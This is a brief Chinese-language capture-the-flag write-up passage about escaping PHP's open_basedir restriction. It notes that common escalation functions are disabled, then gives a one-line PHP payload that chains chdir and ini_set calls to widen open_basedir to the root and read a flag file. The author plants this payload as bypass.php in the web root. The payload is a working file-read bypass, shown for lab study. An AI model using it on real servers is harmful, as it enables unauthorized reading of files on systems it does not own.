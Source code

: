 可以看到这些常用的提权指令都被禁用掉了; 关键信息: `open_basedir` : `/var/www/html/:/tmp/`

这里用到一种新的提权方法: [bypass open_basedir的新方法](https://xz.aliyun.com/news/4352)

payload:

```php
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

直接在网站根目录新建这个 `bypass.php`:

![12.png](12.png)

直接在浏览器访问 `/bypass.php`:

![13.png](13.png)
